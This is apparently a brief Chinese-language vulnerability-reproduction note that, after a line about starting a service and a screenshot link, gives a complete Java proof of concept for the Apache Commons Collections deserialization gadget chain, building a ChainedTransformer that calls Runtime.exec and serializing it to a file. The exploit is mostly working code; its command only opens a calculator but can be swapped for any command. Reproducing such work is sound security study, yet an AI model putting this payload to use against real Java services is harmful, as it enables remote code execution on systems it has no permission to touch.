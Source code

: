 ## 漏洞复现

开启服务

![image-20250312145524530](https://tuchuang-1322176132.cos.ap-chengdu.myqcloud.com//imgimage-20250312145524530.png)

然后跑个cc的poc

```
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.util.*;
import java.lang.reflect.*;

public class Main {

    public static void main(String[] args) throws Exception {
        String cmd="open -a calculator";
        Transformer[] transformers =new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[0]}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{cmd})
        };

        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);

        HashMap hsmap=new HashMap();
        hsmap.put("value","test");

        Map transformedMap=TransformedMap.decorate(hsmap,null,chainedTransformer);

        Class aclass=Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor=aclass.getDeclaredConstructor(Class.class,Map.class);
        constructor.setAccessible(true);
        Object handler = constructor.newInstance(Target.class,transformedMap);

        FileOutputStream bao=new FileOutputStream("ser");
        ObjectOutputStream oos=new ObjectOutputStream(bao);
        oos.writeObject(handler);
        oos.close();

    }

}
```
